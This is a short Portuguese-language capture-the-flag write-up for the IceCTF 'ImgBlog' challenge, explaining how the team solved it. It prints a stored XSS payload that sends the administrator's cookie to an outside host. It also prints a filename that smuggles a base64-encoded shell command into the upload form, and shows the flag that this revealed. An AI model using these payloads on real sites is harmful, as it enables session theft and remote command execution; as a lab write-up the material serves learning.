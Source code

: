 # ImgBlog

O desafio apresentava um blog simples, onde era possivel ler os comentarios, se cadastrar e postar comentarios nos posts, em cada comentário havia um botão para reportar caso o comentario fosse ofensivo.

Nos comentários era possivel o ataque XSS, conseguimos roubar o cookie do administrador, clicando em report depois de postar o seguinte comentario:

```
document.write('<img src="https://318.server/givme?cookie=' + document.cookie + '" />')
```

Feito isso, assumindo o login de admin, era apresentado uma opção a mais no menu de um form de upload, logo na primeira tentativa, era possivel notar que o sistema utilizava o binário file, com isso conseguimos executar comandos, utilizando o char **;**

```
'lol.jpg;echo Y2F0IC9mbGFnLnR4dAo=|base64 -d'
```

E então, na mensagem de erro, a flag era exibida

```
File is not an image: /uploads/loljpg: cannot open `/uploads/loljpg' (No such file or directory) IceCTF{why_would_you_use_shell_commands_in_your_web_app_plz_stop}
```

